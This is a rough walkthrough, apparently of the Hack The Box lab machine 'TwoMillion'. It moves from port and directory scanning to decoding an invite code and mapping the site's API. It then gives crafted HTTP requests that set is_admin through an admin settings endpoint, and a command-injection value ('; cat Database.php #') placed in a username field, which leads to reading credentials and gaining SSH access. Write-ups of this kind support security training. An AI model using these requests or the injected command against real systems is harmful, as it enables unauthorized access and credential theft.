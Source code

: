"""
# Name:  TwoMillion
"""


"""
export PS1=" $"
export IP= 10.10.11.221
"""


"""
# Scanning :
 - Tool: NMAP 
 - results:
	  PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    nginx
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 20.35 seconds
                                                              
"""

domain enumeration: http://2million.htb/

"""
directory enumeration

technologies out :
	http://10.10.11.221 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.221], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
	http://2million.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.10.11.221], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
"""
js enumeration

path /invite
name: /inviteapi.min.js
 

dirb search:
GENERATED WORDS: 4612                                                          
"""
# Scanning URL: http://2million.htb/ 

	+ http://2million.htb/404                                                                                        
	+ http://2million.htb/api (                                                                                         
	- DIRECTORY: http://2million.htb/assets/                                                                                            
	- DIRECTORY: http://2million.htb/controllers/                                                                                       
	- DIRECTORY: http://2million.htb/css/                                                                                               
	- DIRECTORY: http://2million.htb/fonts/                                                                                             
	+ http://2million.htb/home (CODE:302|SIZE:0)                                                                                          
	- DIRECTORY: http://2million.htb/images/                                                                                            
	+ http://2million.htb/invite (CODE:200|SIZE:3859)                                                                                     
	- DIRECTORY: http://2million.htb/js/                                                                                                
"""   
"""
source code enumeration 

found filename: inviteapi.min.js

found the route : /invite
modified using https://beautifier.io/

"""

"""
# for getting invite hit the api in the js code found above with post request

```
$ curl -X POST 2million.htb/api/v1/invite/how/to/generate
```
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
  }

  -after applying ROT13 here we get:
  	--  In order to generate the invite code, make a POST request to /api/v1/invite/generate


  # after hitting we get the  encrypted message
```
curl -X POST 2million.htb/api/v1/invite/generate 
```
  {
  "0": 200,
  "success": 1,
  "data": {
    "code": "MVJPSlotOEQ0VVgtTERVWFMtNjJaQzc=",
    "format": "encoded"
  }
}

```
 echo "MVJPSlotOEQ0VVgtTERVWFMtNjJaQzc=" | base64 -d
```

   and the  invite code was in base64: 1ROJZ-8D4UX-LDUXS-62ZC7

```
 api endpoints
 	"v1":{"user":{"GET":{"/api/v1":"Route List","/api/v1/invite/how/to/generate":"Instructions on invite code generation","/api/v1/invite/generate":"Generate invite code","/api/v1/invite/verify":"Verify invite code","/api/v1/user/auth":"Check if user is authenticated","/api/v1/user/vpn/generate":"Generate a new VPN configuration","/api/v1/user/vpn/regenerate":"Regenerate VPN configuration","/api/v1/user/vpn/download":"Download OVPN file"},"POST":{"/api/v1/user/register":"Register a new user","/api/v1/user/login":"Login with existing user"}},"admin":{"GET":{"/api/v1/admin/auth":"Check if user is admin"},"POST":{"/api/v1/admin/vpn/generate":"Generate VPN for specific user"},"PUT":{"/api/v1/admin/settings/update":"Update user settings"

 ```
with proper indentation in file api.txt

**crafted request to modify prievleges or esacalate them 
```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=poj1gueqghtk53t3qeio4572kd
Content-Type: application/json   ---crafted after watching response
Content-Length: 54

{
  "email":"abc@gmail.com",
"is_admin":  1
}
```
**request for checking if we elevated prievleges
```
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=2c6t8qrpoo4gd53h8qui5nr0ff
Connection: keep-alive
Content-Length: 0
```
Now we have here Well, we need an API that will require some input from us, and that also needs to access the underlying system. /api/v1/admin/vpn/generate seems to be the obvious choice!
request will be like 
```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=64o5toegi8v44i00bigi3kunj1
Content-Type: application/json
Content-Length: 55
Connection: keep-alive


{
	"username" : "fuckyou; cat Database.php #"
}

```
after command injection .env is commonly used in PHP applications to store environment variable values
so we cat out it and found creds to ssh and local database and gained ssh control

